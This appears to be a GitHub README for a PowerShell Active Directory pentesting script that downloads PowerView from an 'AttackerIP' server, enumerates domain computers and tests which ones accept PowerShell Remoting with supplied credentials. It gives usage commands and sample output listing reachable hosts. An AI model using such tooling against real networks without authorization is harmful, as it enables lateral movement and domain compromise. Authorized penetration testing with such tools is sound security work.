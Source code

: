 # ADScripts
some scripts used in AD Pentesting
# PSRemoting Checker

A PowerShell script to identify domain computers accessible via PowerShell Remoting with provided credentials.

## Features

- Automatic download of required PowerView module
- Domain computer enumeration
- PSRemoting accessibility testing
- Clear success/failure reporting
- Summary of compromised machines
- Temporary file cleanup

## Prerequisites

- PowerShell 5.1+
- Network access to domain controller
- HTTP server hosting PowerView.ps1
- Valid domain credentials

## Usage

```powershell
.\PSRemotingChecker.ps1 -AttackerIP "10.10.16.2" -Username "domain\user" -Password "P@ssw0rd!"
```

## Parameters

| Parameter    | Description                              | Example Value                   |
|--------------|------------------------------------------|---------------------------------|
| AttackerIP   | IP hosting PowerView.ps1                 | `10.10.16.2`                    |
| Username     | Domain user in `DOMAIN\username` format  | `internal.zsm.local\melissa`    |
| Password     | Password for specified user              | `WinterIsHere2022!`             |

## Output Example

```text
[*] PowerShell Version: 5.1.20348.2849
[*] Downloading PowerView...
[+] PowerView saved to C:\Users\marcus\AppData\Local\Temp\PowerView.ps1
[*] Importing PowerView...
[+] PowerView imported.
[*] Enumerating domain computers...
[+] Found 23 computers.

=== ACCESSIBLE MACHINES ===

ComputerName   AccessAs
------------   --------
DC01           internal\melissa
FILE01         internal\melissa
SQL02          internal\melissa

Total accessible machines: 3
```

## Setup Instructions

1. Host PowerView.ps1 on your attack machine:
   ```bash
   python3 -m http.server 80
   ```
2. Clone repository:
   ```bash
   git clone https://github.com/yourusername/PSRemotingChecker.git
   ```
3. Run script with domain credentials

## Security Considerations

- Always use temporary credentials for testing
- Delete script after use in production environments
- Ensure proper authorization before running

## License

MIT License - See [LICENSE](LICENSE) for details

